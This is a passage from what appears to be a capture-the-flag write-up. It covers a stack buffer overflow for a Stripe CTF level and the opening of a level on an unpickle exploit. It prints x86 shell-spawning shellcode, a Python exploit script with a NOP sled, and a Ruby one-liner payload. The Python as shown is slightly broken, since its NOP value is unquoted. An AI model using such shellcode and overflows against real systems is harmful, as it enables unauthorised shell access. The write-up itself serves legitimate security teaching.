 Which in the little-endian representation is:
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```


### Solving the Problem

Now, all we need to do is write a snippet in any language which takes that shellcode and some NOPs to overflow the stack of the *level04*'s' binary. We write the exploit in Python:

```py
import struct, subprocess

STACK = 0x0804857b
NOP = \x90
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
EXPLOIT = NOP * (1024 - len(SHELLCODE)) + SHELLCODE

stack_ptr = struct.pack("<I", STACK) * 500
array = "%s%s" % (EXPLOIT, stack_ptr)

while 1:
  subprocess.call(["/levels/level04", array])
```
This solution is possible due to  the [struct](https://docs.python.org/2/library/struct.html) module, which performs conversion between Python and C values, and the [subprocess](https://docs.python.org/2/library/subprocess.html) module, which allows us to spawn new processes. The **struct.pack** method returns a string containing the values packet in the specified format (where **<** means little-endian and **I** is unsigned int).

A [one-line solution in Ruby](https://github.com/stripe-ctf), was given by Stripe and it's worth to mention:

```
$ ruby -e 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90"*987 + "\x7b\x85\x04\x08"'
```





---
## Level 5:  Unpickle exploit

The fifth level is an uppercasing **web service** written in Python, which is split into an HTTP part, and a worker queue part.

In this service, a request can be sent  with:

```
$ curl localhost:9020 -d 'banana'
{
    "processing_time": 5.0037501611238511e-06,
    "queue_time": 0.4377421910476061,
    "result": "BANANA"
}
```
